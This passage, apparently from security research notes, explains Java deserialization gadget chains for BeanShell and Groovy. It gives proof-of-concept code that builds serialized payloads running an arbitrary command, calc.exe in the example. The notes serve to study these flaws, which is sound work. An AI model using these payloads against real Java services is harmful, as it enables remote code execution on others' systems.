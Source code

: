 Poc:
```java
String payload = BeanShellUtil.makeBeanShellPayload(command);  
// payload: compare(Object su18, Object su19) {new java.lang.ProcessBuilder(new String[]{"calc.exe"}
Interpreter i = new Interpreter();  
Reflections.getMethodAndInvoke(i, "setu", new Class[]{String.class, Object.class}, new Object[]{"bsh.cwd", "."});  
i.eval(payload);  
XThis xt = new XThis(i.getNameSpace(), i);  
InvocationHandler handler = (InvocationHandler) Reflections.getField(xt.getClass(), "invocationHandler").get(xt);  
Comparator<? super Object> comparator = (Comparator) Proxy.newProxyInstance(Comparator.class.getClassLoader(), new Class[]{Comparator.class}, handler);  
PriorityQueue<Object> priorityQueue = new PriorityQueue(2, comparator);  
Object[] queue = {Integer.valueOf(1), Integer.valueOf(1)};  
Reflections.setFieldValue(priorityQueue, "queue", queue);  
Reflections.setFieldValue(priorityQueue, "size", Integer.valueOf(2));  
return priorityQueue;
```

## Groovy


> [!NOTE] pre-requirements
> Reproduced on JDK1.8
> org.codehaus.groovy:groovy:2.3.9

This gadget can use both `AnnotationInvocationHandler` or `PriorityQueue`, we use the later as example.

```java
//Gadget chain:
execute:530, ProcessGroovyMethods (org.codehaus.groovy.runtime)
doMethodInvoke:-1, dgm$748 (org.codehaus.groovy.runtime)
invokeMethod:1207, MetaClassImpl (groovy.lang)
invokeMethod:1074, MetaClassImpl (groovy.lang)
invokeMethod:1016, MetaClassImpl (groovy.lang)
call:423, Closure (groovy.lang)
invokeCustom:51, ConvertedClosure (org.codehaus.groovy.runtime)
invoke:103, ConversionHandler (org.codehaus.groovy.runtime)
entrySet:-1, $Proxy4 (com.sun.proxy)
readObject:452, AnnotationInvocationHandler (sun.reflect.annotation)
```

Poc:
```java
final ConvertedClosure closure = new ConvertedClosure(new MethodClosure(command, "execute"), "entrySet");  
  
final Map map = Gadgets.createProxy(closure, Map.class);  
  
final InvocationHandler handler = Gadgets.createMemoizedInvocationHandler(map);  
  
return handler;
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)